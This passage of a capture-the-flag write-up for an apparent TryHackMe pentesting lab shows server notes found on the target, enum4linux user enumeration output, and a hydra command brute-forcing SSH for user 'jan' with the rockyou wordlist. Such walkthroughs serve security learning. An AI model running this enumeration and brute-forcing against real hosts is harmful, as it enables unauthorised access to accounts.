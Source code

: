 ![development_directory][6]

Clicking dev.txt, we get:
```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
This corresponds to what we saw in the nmap scan with the Apache version and SMB being available.
In j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
This might be a hint to the usernames what we will be looking for later.

##### 4. User brute-forcing to find the username & password
###### 5. What is the username?
###### 6. What is the password?
Lets give a look at the enum4Linux script to see what we have available.  Scrolling down to enumerating users we see this:
```
 ======================================================================== 
|    Users on 10.10.157.115 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

```
This gives us a user - jan. We can use the tool hydra to try bruteforcing this user with the famous rockyou worldlist on the SSH protocol what we found earlier:
`hydra -l jan -P /usr/share/wordlists/rockyou.txt MACHINE_IP ssh
`
After running for a bit we get the output
```
Hydra v9.0 (c) 2020 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-03 15:52:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking ssh://10.10.68.148:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 9823 to do in 00:56h, 16 active
[STATUS] 119.33 tries/min, 358 tries in 00:03h, 9643 to do in 01:21h, 16 active
[STATUS] 116.86 tries/min, 818 tries in 00:07h, 9183 to do in 01:19h, 16 active
```

[1]: https://tryhackme.com/room/basicpentesting
[2]: https://tryhackme.com/access
[3]: https://nmap.org/
[4]: https://ippsec.rocks/# 
[5]: https://hackertarget.com/gobuster-tutorial/
[6]: https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/Basic_Webapp/resources/webapp_80_files.png
[7]: https://github.com/danielmiessler/SecLists
[8]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[9]: https://github.com/magnumripper/JohnTheRipper